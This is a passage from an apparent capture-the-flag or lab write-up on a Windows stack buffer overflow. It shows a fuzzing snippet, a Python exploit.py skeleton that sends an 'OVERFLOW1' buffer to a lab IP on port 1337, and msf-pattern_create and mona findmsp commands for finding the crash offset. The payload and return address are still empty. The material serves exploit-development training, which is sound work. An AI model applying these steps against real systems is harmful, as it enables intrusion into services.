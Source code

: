 ```python
  string += 100 * "A"
  time.sleep(1)
  ```

Python3 Exploit
{: .highlight }  
We create a second python file, exploit.py, containing the following:

```python
#!/usr/bin/env python3
import socket

ip = "10.10.180.173"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
  ```

We then generate a cyclic pattern vai pattern_create and make it *400 bytes longer than the string that crashed the server*.

We ran the fuzzer against the server and received the following message when the application crashed in Immunity:
```
Fuzzing crashed at 2000 bytes
```

So I assume our msf command needs to be -l 2400:
```
msf-pattern_create -l 2400 > pattern.txt
```

We copy the entire pattern, and then modify  exploit.py's 'payload' variable to contain this long string of characters (in quotes!).

We run exploit.py and watch the program crash. In Immunity, we input the following into the command line (noting that 2400 is the value we came up with previously and had input into the msf command)
```
!mona findmsp -distance 2400
```
